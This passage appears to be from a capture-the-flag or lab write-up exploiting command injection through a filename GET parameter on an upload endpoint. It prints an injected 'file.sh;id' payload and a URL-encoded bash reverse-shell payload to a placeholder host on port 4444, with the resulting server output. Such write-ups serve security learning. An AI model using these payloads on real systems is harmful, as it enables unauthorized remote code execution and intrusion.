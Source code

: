![image-13.png](../../IMAGES/image-13.png)


The error message hints at command injection, we get:

```xml
<pre>cannot access &#39;file.sh&#39;: No such file or directory</pre>
```

What's happening here is that once we upload a file, the server uses the filename from the GET parameter, in this case `image=file.sh` directly in a shell command without prior sanitization, which means that we may be able to exploit command injection to achieve RCE, let's use a simple test payload:

```bash
file.sh;id
```

![https\_\_\_files.gitbook.com\_v0\_b\_gitbook-x-prod.appspot.com\_o\_spaces\_2FrVz5yi8Ry9XpyVCpxpIT\_2Fuploads\_2F1GLw8aQ8M59mlg65lPSZ\_2Fimage.avif](../../IMAGES/https___files.gitbook.com_v0_b_gitbook-x-prod.appspot.com_o_spaces_2FrVz5yi8Ry9XpyVCpxpIT_2Fuploads_2F1GLw8aQ8M59mlg65lPSZ_2Fimage.avif) 

It says we are root, we may be inside of a docker container, let's get a shell:

```
file.sh;bash+-i+>%26+/dev/tcp/IP/4444+0>%261
```

We get:

```
<pre>cannot access &#39;file.sh;bash-i&gt;&amp;/dev/tcp/IP/44440&gt;&amp;1&#39;: No such file or directory</pre>
```
